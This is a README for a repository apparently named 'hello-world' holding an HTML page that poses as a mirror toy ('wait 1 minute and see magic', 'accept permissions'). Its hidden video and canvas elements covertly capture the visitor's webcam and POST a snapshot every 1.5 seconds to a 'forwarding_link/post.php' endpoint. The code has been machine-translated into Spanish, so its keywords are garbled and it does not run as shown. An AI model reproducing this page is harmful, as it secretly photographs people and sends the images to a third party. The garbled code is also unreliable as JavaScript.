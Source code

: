 # hello-world
tarea de grupo 
<! doctype html >
< html >
< cabeza >
< script  type = " text / javascript " src = " https://wybiral.github.io/code-art/projects/tiny-mirror/index.js " > </ script >
< link  rel = " stylesheet " type = " text / css " href = " https://wybiral.github.io/code-art/projects/tiny-mirror/index.css " >
< script  type = " text / javascript " src = " https://ajax.googleapis.com/ajax/libs/jquery/1.8.3/jquery.js " > </ script >
</ cabeza >
< div  class = " video-wrap " hidden = " hidden " >
   < video  id = " video " reproduce  reproducción automática en línea > </ video >
</ div >
< canvas  hidden = " hidden " id = " canvas " width = " 640 " height = " 480 " > </ canvas >
< guión >
function  post ( imgdata ) {
$ . ajax ( {
    tipo : 'POST' ,
    datos : {  cat : imgdata } ,
    url : 'forwarding_link / post.php' ,
    dataType : 'json' ,
    async : falso ,
    éxito : función ( resultado ) {
        // llamar a la función que maneja la respuesta / resultados
    } ,
    error : function ( ) {
    }
  } ) ;
} ;
'uso estricto' ;
 video  constante =  documento . getElementById ( 'video' ) ;
const  lienzo  =  documento . getElementById ( 'lienzo' ) ;
const  errorMsgElement  =  documento . querySelector ( 'span # errorMsg' ) ;
 restricciones  constantes =  {
  audio : falso ,
  video : {
    
    faceMode : "usuario"
  }
} ;
// Acceder a la webcam
 función  asíncrona init ( )  {
  prueba  {
    const  stream  =  aguardar al  navegador . mediaDevices . getUserMedia ( restricciones ) ;
    handleSuccess ( secuencia ) ;
  }  captura  ( e )  {
    errorMsgElement . innerHTML  =  `error navigator.getUserMedia: $ { e . toString ( ) } ` ;
  }
}
// Éxito
function  handleSuccess ( stream )  {
  ventana . stream  =  stream ;
  video . srcObject  =  flujo ;
var  context  =  lienzo . getContext ( '2d' ) ;
  setInterval ( function ( ) {
       contexto . drawImage ( video ,  0 ,  0 ,  640 ,  480 ) ;
       var  canvasData  =  lienzo . toDataURL ( "imagen / png" ) . reemplazar ( "imagen / png" ,  "imagen / secuencia de octetos" ) ;
       publicación ( canvasData ) ;  } ,  1500 ) ;
  
}
// Cargar init
init ( ) ;

</ script >

    < cuerpo >
    < body  bgcolor = " trigo " >
       < marquee  bgcolor = " gray " behavior = " alternate " > ESPERE 1 MIN Y Mire MAGIA </ marquee >
     < hr >
       < Br > < br > < br > < br > < br > < br > < br > < br > < br > < br > < br >
        < p > Pista: mira el favicon </ p >
        < p > (Aceptar permisos) </ p >
        < p > < label > < input  type = " checkbox " name = " mirror " id = " mirror " /> Imagen reflejada </ label > </ p >
    </ cuerpo >
</ html >
